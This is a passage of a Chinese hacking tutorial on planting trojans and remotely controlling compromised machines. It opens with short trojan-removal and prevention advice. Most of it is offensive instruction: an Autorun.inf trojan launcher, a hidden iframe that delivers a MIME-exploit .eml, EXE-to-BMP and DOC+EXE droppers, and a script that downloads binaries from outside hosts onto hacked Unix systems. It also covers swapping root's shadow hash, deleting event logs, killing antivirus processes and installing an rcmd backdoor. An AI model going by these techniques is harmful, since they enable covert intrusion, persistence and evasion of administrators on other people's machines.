对了，还有一种木马叫做ASP木马！我就不用介绍了，其全部源代码如下：

用法自己去研究吧！

看到这里你是不是有点害怕呢？其实木马没有什么可怕的！比如前面的那位可怜的兄台把冰河给点了，现在我们就来干掉它：

我们可以在客户端选择自动卸载，另外我们可以手动删除，在注册表里面找`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`和`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices`键值下，看看是否有什么可疑的程序！然后在纯DOS下删除`C:\WINDOWS\SYSTEM`目录下的kernel32.exe和sysexplr.exe这两个文件！注意啊！这只适用于冰河2.2版，对于一些盗版的冰河我不能保证有用！

现在该说说怎么防止被别人种木马了！有攻当然要有防啊！

- 不要运行来历不明的软件，从网上下载下来的东西一定要经过严格的杀毒。
- 不要轻易相信别人，一些人装成什么好心的大虾，专门欺骗一些菜鸟，把一些图片捆绑上木马给你发过来。比如我们前面捆绑了冰河的Flash，其实你只要仔细看一下就会发现，它和真正的Flash可执行文件的图标的区别！
- 下载软件不要去一些小站点！因为那里面的软件很有可能被别人捆绑了一些什么东西！下载黑客软件更要注意，你在给别人放后门的同时你是否注意到你自己已经成了别人的肉鸡呢？
- 不要接收陌生人的E-mail，特别是带附件的E-mail！
- 安装正版的杀毒软件，并且要及时升级，另外要经常检查自己的端口，看看是否有什么可疑的进程！建议使用优化大师！
- 如果发现机器有什么不妥，检查注册表`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices`和`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，看看有没有什么不明程序在运行！另外，`C:\WINDOWS`下win.ini中[windows]字段中的load=和run=，这两项本应该是空，如果有东西，你也应该注意一下了；另外system.ini中[boot]字段中的shell=Explorer.exe后面也是木马加载的地方！
- 如果发现有什么不妥的地方，最好的办法就是断线！这是最有效的办法了，其实这些根本没有任何技术含量可言，只是给大家提供一种方法吧！我还要重申一句，就是千万不要在国内的机器上面做实验！否则一切后果自付！

## 1.10 由浅入深木马植入方式的升级

#### 一、直接运行植入

这是最原始的方式，把配置好的木马直接在目标机器上运行就完成了。  
当然，想那么做不是很容易的，于是人们就开始用一点小骗术。比如，声称给对方一个好玩的小游戏，但发过去的是木马，对方运行后说没反应，就一边骗他说发错了或者别的，一边开始控制他（她）。  
还有就是打个包给木马取个诱人的名字和别的文件放在一起，比如xxx什么的，然后对方定力不足就中招了。  
总的来说，这种方式技术含量太低，成功率不高，偶尔骗骗菜鸟还可以。

#### 二、合并植入

这种方式是前一种的提高，原理就是用一段小的程序去加载木马程序和迷惑程序。这类软件很多，总的来说用起来差不多，关键要看合并后增加的容量大小和其他配置功能。  
这里我推荐gwbinder（图1-10-1）。

下载请到www.gwgirl.com。  
合并植入是一种简单的变化，但却是非常有效的一种方式。

#### 三、自动植入

这种方式的意思就是让木马不由对方意志自动运行。听起来有点可怕，但是利用系统漏洞，注意系统更新便可防范。自动植入有多种方式，我介绍几种常见的。

- 利用共享和Autorun的方式

学校里的局域网里一般都有很多共享，为的是工作起来方便，有的机器往往把整个盘符暴露在局域网上而不加密码，把文件统统公布于天下。更有甚者，为了方便把共享设为可写，对于这种人，我们有必要让他知道一下这样做的危害。

相信大家都用过CD的Autorun功能，其实它对硬盘同样奏效。  
具体可以这样做：首先把木马放在一个地方加隐藏，然后在那个硬盘的根目录下建一个Autorun.inf文件，里面的内容这样写：

```ini
[Autorun]
open= d:\Trojan.exe /autorun
```

保存后也隐藏，然后去“我的电脑”下刷新，双击这个盘符，程序就运行了。这里教大家个小技巧，文件名可以为`.exe`。其实是中文全角的空格，这样不会出错而且够隐藏。  
这招对于经常进“我的电脑”去找文件的人最有效，我觉得我们学校老师都这样。如果对方暴露C盘，那你可以做更多的事情，比如替换它的系统文件。当然，autorun的方法也有问题，程序运行后，并不能进入盘符，会引起怀疑的。

- 错误的MIME头攻击

MIME是Multipurpose Internet Mail Extension的缩写，是一种指定文件类型的任何形式的消息：E-mail、Usenet新闻和Web的通用方法，运用广泛。这个漏洞由Juan Carlos Garcia Cuartango安全小组一发现，立刻在全球网络上引起了大地震，产生无数邮件病毒。

- Windows 95/98/me/NT4/2000下；
- Microsoft Internet Explorer 5.0
- Microsoft Internet Explorer 5.01
- Microsoft Internet Explorer 5.5
- 均存在该漏洞。

关键是IE的版本，打过补丁就没问题，问题是还有好多人没那么做。  
我们用小榕的oe5exploit做个范例，木马尽量用小个的，这里用流光的补丁做例子，如图1-10-2。下载去www.netxeyes.com。设置好后发出；SMTP要选没有认证的，然后我们用一台标准的Windows 98SE，不打补丁，选用Outlook Express收信，就会出现图1-10-3的效果。

攻击成功，换一台满补丁Windows 2000看看，就没有效果了。同样在Windows XP下，看到的是这样的情况，如图1-10-4。并且同时弹出Media Player和一个错误信息，如图1-10-5。看来系统新还是很有好处的。  
对于MIME头攻击，只要打过IE的安全补丁就可以很好地防备。另外，有些人不用OE，Foxmail不吃这一套，还有很多菜鸟菜得连OE都不会用，也不能用这种方法攻击。不过一旦满足条件，这种方法非常有图1-10-4

图1-10-5

效。

## 3. 利用网页代码结合漏洞

人可以不收附件，不用OE，但总不能不看网页吧？对了，就是利用网页来植入木马！我们需要得到一个具有自动植入木马功能的邮件文件。可以这么做：用上文介绍的 OE5EXPLOIT 发个邮件木马，然后自己收，确保自己的系统没有漏洞，否则不是傻了吗？收到后保存成一个 `*.eml` 文件，这就是木马了。放到你的空间上去叫别人看，当然，给人家 eml 地址会引起怀疑，我们可以把它做成一个很诱人的链接，他们会点的，不是吗？

Windows 98 看这种 eml 直接生效，如图1-10-6。打过补丁的 Windows 2000 则是提示下载，如图1-10-7。

图1-10-6

图1-10-7

Windows XP 则是弹出 Media Player，没效果。也许你认为这么制作太过麻烦，那么你可以去 www.heibai.net 下载 MIME 漏洞网页生成器，如图1-10-8。

它的设置选择相对多，可以直接生成 eml，配置的好处就是能骗过使用 Windows 2000 系统的人，如图1-10-9。

平时的网页都是 HTM 格式，我们也可以用 HTM 去调用 eml：

```html
<iframe src="xxx.eml" width="0" height="0"
frameborder="no"
border="0"
marginwidth="0" marginheight="0" scrolling="no">
</iframe>
```

图1-10-8　　　　　　　　　　　　　　　图1-10-9

把这段代码放在 body 标签之内（最好放在代码的结尾处附近），然后把 eml 改成相应的名字放在一个目录上，对方有滋有味看着网页时，木马已经偷偷进入他的电脑了。这个方法的原理和上面的一样，效果也差不多。按照我个人经验，我们最好用 heibai 的程序去制作 eml，别的方法做出来的 eml 可能会被查出病毒，看运气了。

对于 MIME 头的植入方式，我们选用的木马一定要小，最好不要超过 10K，当然不是绝对的，自己做好测试便可。顺便说一句，我认为把木马放在贺卡网页里面是个很不错的选择。

## 4. EXE to BMP

这是一种相对比较新颖的方式，把 EXE 转化成为 BMP。怎么样，有点不可思议吧？我简单说一下这种方式的原理。

BMP 文件的文件头有 54 个字节，包括长宽、位数、文件大小、数据区长度。

图1-10-10

那么我们就能在 EXE 的文件头上加上这 54 字节，IE 就会把它当成 BMP 下载下来，当然文件头写错的话是不行的。改过的 EXE 图片是花的，如图1-10-10。

```html

```

把这样的标签加到网页里，就看不见了。IE 把图片下载到临时目录，我们需要一个 JavaScript 文件在对方的硬盘里写一个 VBS 文件，并在注册表添加启动项，利用那个 VBS 找到 BMP，调用 debug 来还原 EXE，最后运行程序完成木马植入。

以下是 JS 的代码。

相信大家可以看懂这里的意思，5c00 是你的 EXE 的大小的 16 进制数，在网页里调用，是没有什么反应的，但是看看注册表，如图1-10-11。下一次启动时就运行了，无声无息的。不过这种方式会被金山毒霸查出来的。我们可以去 delphi2000.3322.net 去下载专用的转换程序，很方便。注意要把 JS、BMP、HTM 放在一起，还要加以伪装，不要露出马脚。

图1-10-11

要是对方没有安装杀毒软件，这种方法无疑是个很好的选择。还有一种类似的植入方式，把 EXE 文件转化成 HTM 文件，同样需要 js 的支持，也会被查出来，这里就不介绍了。

## 四、Word文档添加EXE

这是最近公布的一种方法，比较奇特，但用起来不是很方便。

其实这种转换并不是文件格式上的变化，只不过是把一个 EXE 文件接在一个 DOC 文件的末尾而已。

Word 的宏是使用 VBA 来编写的，这种方式就是利用 VBA 写一段代码，新建一个 DOC 文件，打开 VISUAL BASIC 编辑器，新建一个模块，输入声明（由于这段声明比较长，这里不列出了，有兴趣的读者可以去 www.cshu.net 看详细代码），然后回到 “ThisDocument” 的代码视图，选择 Document Open 的事件，同样输入代码。注意其中的文件大小（做好后的 DOC 大小）就可以了。

```bash
copy /b anyname.doc + anyname.exe anyname.doc
```

接着把 DOC 和 EXE 合并。打开这个 DOC 文档，程序就会自动运行，不过需要满足一个条件：`HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security` 中的 Level 值必须是 1 或者 0。

怎么做呢？你一定被人改过 IE 的标题吧？对了，就是恶意网页代码。这很容易做到的，需要代码可以去网上查找，也可以去 www.cshu.net/bbs 讨论，一定有人帮你的。

这种新方法是基于 Word 2000 的，别的版本我没有试过，大家可以研究一下。

## 五、总结

- 1. 关于木马的选用，笔者向大家推荐 winshell5.0，它是一个 Telnet 式的木马，体积小是它最大的优势，服务端只有 5K 而已，而且可以用它帮对方植入其他木马。它也有缺点，会被防火墙拦截，隐蔽性做得不够好，但由于体积小，成为 MIME 方式的一个极好的选择。
- 2. 关于防备。我想除了装上一个有最新数据库的防火墙之外，给系统打补丁也是很必要的，比如 MIME 漏洞可以通过 http://www.microsoft.com/windows/ie/download/critical/Q290108/default.asp 来修补。其实 windowsupdate 是个很好的选择，经常用可以大大提高安全性。
- 3. 作为一种重要的攻击方式，木马本身也在不断发展，如今的木马已经可以利用系统文件很好地隐藏自己，而且采用进程插入工作方式，可以轻松绕过防火墙，非常危险。
- 4. 绝对不要在配置木马时暴露任何你的信息。
- 5. 需要截取密码时，推荐使用广外幽灵。
- 6. 需要对方 IP，可以用防火墙监控，对于 QQ 上隐身的人最有效，当然人家用代理就没办法了。

## 1.11 远程控制UNIX

既然在 Windows 下的远程控制软件如此出色，那么，在 Linux 平台中是否有好用的控制工具软件呢？实际上，在 Linux 操作系统平台中也是存在几款功能强大的远程控制工具软件的，只是这些软件非常少，使用的用户也不是很多，所以一般的 Linux 用户对它们知道得并不多。

前段时间国内著名黑客小榕写了远程安装 VNC 的文章，但 VNC 的功能远不止于此。

首先要来介绍一下 VNC 这个软件。国内对于 VNC 的研究比较少，只是到最近小榕才推广了一下，可是，对其强大的功能，也只是利用了一小部分。VNC 是 Virtual Network Computing 的简称，是 http://www.uk.research.att.com/VNC 的专门负责 VNC 开发的开发小组开发的。

VNC 有点类似 Windows 2000 的终端服务，相对于其他的远程控制软件，主要体现了 5 个优点。

- 1. VNC 远程控制时，客户端的任何异常事故不会对服务端造成影响，也就是说，如果你正在用 VNC 远程控制一台主机，你突然死机了，再用 VNC 连时，可以继续进行刚才的操作。
- 2. VNC 的控制端很小，不需要任何安装，而且 VNC 有 Java 的控制端，不需要用任何其他工具，用浏览器就可以直接控制，比如 IE 或 Netscape。
- 3. VNC 实现了真正的跨平台，你可以在 UNIX 下控制 Windows，或者是在 UNIX 下控制 Windows；并不依赖操作平台是 VNC 最大的特色和优点。在本文中，我们将演示如何用 Windows 来控制 Linux 和 Solaris。
- 4. 一个桌面可以同时被多个用户使用。类似 Windows 2000 终端管理中的连接功能，交流非常方便。
- 5. VNC 符合 GNU 风格，开放源代码，这是最大的好处，当然 VNC 的 Exploit 在 packetstorm 上也可以找到。

VNC 的控制原理也可以用图1-11-1方便地表示：

图1-11-1

这个控制是基于 TCP/IP 的，其中 VNC Server 扮演了双重角色。VNC Protocol 是基于 RFB Protocol 的。

下面开始动手来安装，首先以 Linux 下的安装为例，我们可以用 Windows 来控制 Linux 的 x-window。把 VNC 软件包传到 Linux 的 `/tmp` 目录下（这里以 `/tmp` 为例，你也可以更换到其他的合适目录）。用 tar 命令解压缩，会得到一个 `VNC_x86_linux_2.0` 的目录。

- `cd VNC_x86_linux_2.0` 进入后，接下来需要做的就是拷贝一些文件。  
  第一步：`mkdir -p /usr/local/bin/VNC/classes` 建立一个目录；  
  第二步：`cp classes/* /usr/local/bin/VNC/classes`；  
  第三步：  
  `mv VNCpasswd /usr/bin`  
  `mv VNCserver /usr/bin`  
  `mv VNCviewer /usr/bin`  
  `mv XVNC /usr/bin`

VNCpasswd 是设置 VNC 的控制密码，VNCserver 是安装脚本，VNCviewer 是主控端，XVNC 就是上面协议里的那个人了。我们要做的就是把软件包的 classes 目录移到 `/usr/local/bin/VNC` 目录下面，然后把 VNCpasswd、VNCserver、VNCviewer、XVNC 这几个配置文件放到 `/usr/bin` 这个目录；这里最重要的就是 VNCserver 和 XVNC 这两个文件。

然后需要修改一下 xstartup 这个脚本，位置在 `/tmp/.VNC` 下，修改它来使用 kde 启动，如果有 kde 的话。修改如下：

```bash
echo "xrdb $HOME/.Xresources" >>xstartup
这句是让 xrdb 创建 .Xresources 文件
echo "xsetroot -solid grey" >>xstartup
echo "xterm -geometry 80x24+10+10 -ls -title \"$VNC_DESKTOP Desktop\" &" >>xstartup
```

这句是设置屏幕解析度和到文件：

```bash
echo "startkde &" >>xstartup
```

这句是以 kde 启动。

然后我们再用 VNCserver 启动，设置好密码即可了。这样再用 VNCviewer 连接，输入密码后就可以看到漂亮的 kde 桌面了。

X-laser 给我们写了一个本地安装 VNC 的脚本：

```sh
#!/bin/sh
echo "This VNC install(rdehat *)"
echo "author: X-laser"
echo "这里是幻影旅团 (www.3389.net)"
echo "中国刺客网 (www.thugx.com)"
lynx -dump www.3389.net/VNC.tgz >/tmp/.VNC.tgz
if chmod 777 /usr/X11R6/bin/twm
then
  echo "checke x-server ok"
else
  lynx -dump 61.153.9.166/bin.tar >/usr/X11R6/
  lynx -dump 61.153.9.166/lib.tar >/usr/X11R6/
  tar -xvf /usr/X11R6/bin.tar
  tar -xvf /usr/X11R6/lib.tar
fi
cd /tmp; tar -zxvf .VNC.tgz
mkdir sh
cd VNC_x86_linux_2.0
cp /usr/X11R6/bin/xauth /usr/bin; chmod 777 /usr/bin/xauth
mkdir -p /usr/local/VNC/classes
mkdir -p $HOME/.VNC
mkdir twm
cp classes/* /usr/local/VNC/classes
mv VNCpasswd /usr/bin
mv VNCserver /usr/bin
mv VNCviewer /usr/bin
mv XVNC /usr/bin
echo "请输入选择的启动的界面"
echo "twm 界面（简陋型）"
echo "kde 标准界面"
read VNCgui
if cd $VNCgui
then
  echo "您选择了twm界面"
else
  echo "您已经选择了kde标准界面"
  cd $HOME/.VNC
  echo "#!/bin/sh" >xstartup
  echo "" >>xstartup
  echo "xrdb $HOME/.Xresources" >>xstartup
  echo "xsetroot -solid grey" >>xstartup
  echo "xterm -geometry 80x24+10+10 -ls -title \"$VNCDESKTOP Desktop\" &" >>xstartup
  echo "startkde &" >>xstartup
fi
echo "请输入密码长度5或者位以上"
VNCserver
```

```bash
echo "您的VNC服务端口"
netstat -an | grep 590
echo "您的http连接VNC端口"
netstat -an | grep 580
echo "安装程序结束"
```

注意：由于 VNC 安装时与环境变量密切相关，所以请以正常用户安装（建议以 root 权限安装，这样有时候很多权限不够的问题可以避免）。如果是以溢出后的 uid=0 的权限或者是 suid 的 euid=0 的权限来安装，都有可能遇到环境变量的问题。

黑客的小技巧：黑客入侵后，可以用溢出的 uid=0 或 euid=0 的权限通过修改 shadow 的方法来改变 root 的密码，然后 su 到 root，这样就不会有环境变量的问题。具体实现如下：

- 1. 先建立一个用户，再用 passwd 修改密码；
- 2. 把 shadow 备份，然后把 shadow 中 root 的密码 hash 替换成自己刚建立的用户的密码的 hash，然后再 su 到 root 进行操作；
- 3. 操作完成，退出 root，再把刚才备份的替换回来。

安装好后，会有两个端口，一个是 590x，一个是 580x。因为安装时端口不是固定的，590x 的端口是服务连接端口，而 580x 绑定了 applet 小程序，用 Web 连接此端口会自动运行 applet，从而达到网页访问效果，就是前面提到的可以用浏览器来控制一样，最大限度地实现了跨平台。

现在我们来讲 VNC 在 Solaris 下的安装，安装过程与在 Linux 下安装几乎是一样的。不同的是，Sun OS 需要自己把包传到 `/tmp` 目录下，而 Linux 下的安装则由脚本控制 lynx 自动下载，因为很多 Sun OS 都没 lynx 的缘故。同样，在安装过程中需要 root 身份安装（不仅仅是 uid=0），x-laser 也为我们写了个本地安装的脚本。

VNC 还可以在各种其他的系统下安装，比如 aix、freebsd 等，但是安装还在测试中，到时候我们会再出些安装脚本。

说了这么多都还只是安装，下面讲控制。控制有两种方式：

- 1. 用浏览器控制。比如说，192.168.0.1 是被控端，VNC 开了两个端口 5801 和 5901。那么，我们在浏览器的地址栏里输 `http://192.168.0.1:5801`，然后就会自动下载 applet 的控制程序，输入密码之后，就可以看见 x-window 了，请注意，这个端口是 5801，不是 5901。
- 2. 用 VNCviewer 控制。下载 VNCviewer，然后输入 `192.168.0.1:5901`；第一步是输入密码，然后就可以开始连接控制了。

下面是我控制 Linux 和 Sun OS 的截图。

- 在 Windows 下控制 Linux（图1-11-2）；
- 在 Windows 下控制 Sun OS（图1-11-3）；
- 以上所提到的软件可以在幻影旅团的主页下载：
  - Linux 下的安装包：www.3389.net/VNC.tgz
  - Solaris 下的安装包：www.3389.net/sunos.tar
  - 远程控制工具：VNCviewer：www.3389.net/VNCviewer.exe

图1-11-2

图1-11-3

关于 VNC 的初步介绍，这篇文章就介绍到这里了，VNC 的功能很强，不是一篇文章就能说完的，以后我们会陆续写关于这方面的文章。

## 1.12 怎样使用DameWareNTUtilities

远程访问、控制技术从诞生到现在已经有很多年了，今天的远程控制技术也比较成熟了，我们看看下一段描述：

你可以随时随地使用自己的电脑。不管你是在家里进行远程办公，还是带着笔记本电脑旅行，你都可以利用远程访问软件，在任何地方运行自己 PC 上的程序和处理上面的文档。实际上，你可以像坐在家里的电脑或办公电脑前一样来控制它们——你只要把软件安装在主机电脑和远程电脑上，登录到 Internet，然后“呼叫”你的主机电脑就可以了。通过网络远程办公可以极大地提高效率，不必顶风冒雨去公司坐班，节省了时间，节约了办公场地和成本。DameWare NT 就能做到这一点，但它的强大功能让黑客们为之一振。我们还是看下面：

简介：DameWare NT 是一个 Windows NT/2000/XP 的全面系统应用管理工具，用它可对远程主机服务器进行全面集中管理。它包含所有 Windows NT/2000 服务器和 Windows NT/2000/XP 工作组的效用。用它能为给远程主机安装并启动木马，启动远程主机服务，修改日志，远程注册表的修改，远程主机用户管理，远程 RCMD 控制，尤其是迷你型远程 GUI 控制使用起来更快……它几乎包含所有黑客所梦寐以求的工具的优点，实在是一款优秀的远程控制软件。总之，它功能强大，性能优秀，使用它可以使你更加方便！

运行平台：WinNT/Win2000/WinXP 软件  
下载地址1：http://www.hktk.com/soft/soft_remote/damewarentutilities_1.html  
安装：下载后双击 EXE 文件安装，安装后会在开始菜单的程序级联中生成 DameWare NT Utilities 程序组，如图1-12-1所示。

使用前提：必须具有肉鸡 Administrator 权限，并且肉鸡允许 IPC$ 连接，下面我首先谈谈怎样使用 DameWare mini remote control，即用它来控制远程主机，就像在本地使用一样；单击打开，出现如图1所示的界面，填上用户名和密码，单击 OK 程序会自动连接远程主机，它会发现远程没有安装连接服务，弹出对话框如图1-12-2所示。我们给肉鸡安装了服务后就能进入如图1-12-3所示的界面：

dwrcc 是基于屏幕截图来控制和显示的，这有一些局限，速度并不快，我们还是给肉鸡开 3389 端口吧。下面我谈谈通过 DameWare mini remote control 开 3389 端口，如图1-12-4所示。

进入控制面板，在“添加/删除程序”窗口中双击“添加/删除 Windows 组件”，出现如图4的窗口，选中“终端服务”，点“下一步”后出现两种启动终端的模式，我们选择其中一种。一直继续下一步，系统安装完我们所选的组件后，出现安装成功画面。

现在我们已经学会怎么使用 DameWare Mini Remote Control，在我们感叹它的强大功能的同时，千万不要忽视其他的组件。它们在 DameWare NT Utilities 程序中，它才是软件的主体（图1-12-5）。仔细看看，它的界面很像资源管理器。单击右上角图标添加主机，我们能够用它管理和维护我们的远程主机。

添加远程主机后，下一步就是管理了，我重点说说它的几个重要的功能，如图1-12-6所示。





图1-12-5

图1-12-6

- 1. 日志管理：事件日志主要用来查看系统安全，日志的详细资料包括日期、时间、来源分类、事件、使用者的情况。为做到安全起见，我们需要删除日志，这样才不会被管理员发现，如图1-12-7所示；下面的图标分别是“查看”“打开文件”“保存记录”“删除全部记录”“过滤”“开/关”“日志属性”。  
  其中“打开文件”可以让日志显示你想让它显示的内容，当然你要先做个假的日志文件。一般日志文件默认位置：`%systemroot%\system32\config`。

- 2. 进程管理：用它能够杀掉肉鸡的进程，比如杀毒软件、防火墙的进程我们能够杀掉，这样我们就能够更好地控制肉鸡。具体方法：在相应的服务下右键点 End process（终止进程），然后再 stop service。如图1-12-8所示：





图1-12-7

图1-12-8

- 3. 远程修改注册表，如图1-12-9所示。  
  隐身登录不让管理员发现：

```
HKEY_LOCAL_MACHINE---SOFTWARE---Microsoft---WinNT---CurrentVersion---Winlogon
菜单下找到 DontDisplayLastUserName，将键值设为 1。
```

开启停用的 3389-RDP 连接：

```
hkey_local_machine\system\currentcontrolset\control\terminal server\winstations\rdp-tcp\fEnableWinStation
```

将 fEnableWinStation 值由 0 改为 1。

- 4. Remote Command：一个是在 DameWare NT Utilities 窗口里打开，另一个是另开窗口。其实这两个都一样，都是 rcmd.exe（后门），开的是 Windows 2000 默认的 445 端口，将 RCMD 服务端放到对方的机器上，管理员可能丝毫也不会察觉！我们能够使用它跨越若干计算机为一项特别的任务分布处理的要求。要运行这一任务，你必须输入肉鸡命令控制台要求的用户 ID 和密码。  

如果你想移除肉鸡实用程序服务，简单地打开服务窗口如图1-12-10所示，选择肉鸡实用程序服务并且按右键停止服务即可。

